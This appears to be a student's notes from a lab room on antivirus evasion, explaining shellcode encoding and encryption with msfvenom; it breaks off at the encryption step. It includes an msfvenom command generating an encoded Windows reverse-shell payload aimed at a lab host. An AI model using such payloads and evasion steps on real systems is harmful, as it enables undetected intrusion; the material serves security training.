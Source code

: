 - AV vendors implement their AV software to blocklist most public tools (such as Metasploit and others) using static or dynamic detection techniques.
- Therefore, without modifying the shellcode generated by these public tools, the detection rate for your dropper is high.

- Encoding and Encryption can be used in **AV Evasion techniques** where we encode and/or encrypt shellcode used in a dropper to hide it from AV software during the runtime.
- Also, the two techniques can be used not only to hide the shellcode but also functions, variables,etc.
- In this room, we mainly focus on encrypting the shellcode to evade Windows Defender.

-------
# Shellcode Encoding and Encryption

### Encode using MSFVenom

- Public tools such as Metasploit provide encoding and encryption features.
- However, AV vendors are aware of the way these tools build their payloads and take measures to detect them.
- If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.


##### 1. Generate a simple encoded payload

```shell-session
user@AttackBox$ msfvenom --list encoders | grep excellent
```

	- List types of encoders with string named "excellent"

![](/assets/img/Pasted image 20230113132747.png)

```shell-session
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=10.10.85.208 LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

- If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

![](/assets/img/Pasted image 20230113132339.png)

	- If encoding doesn't work, we can always try encrypting the payload.
	- Intuitively, we would expecct this to have a higher success rating, as decrypting the payload should have proven a harder task for the AV.

### Encryption Using MSFVenom

##### 1. Generate encrypted payload with MSFVenom

```shell-session
user@AttackBox$ msfvenom --list encrypt
```
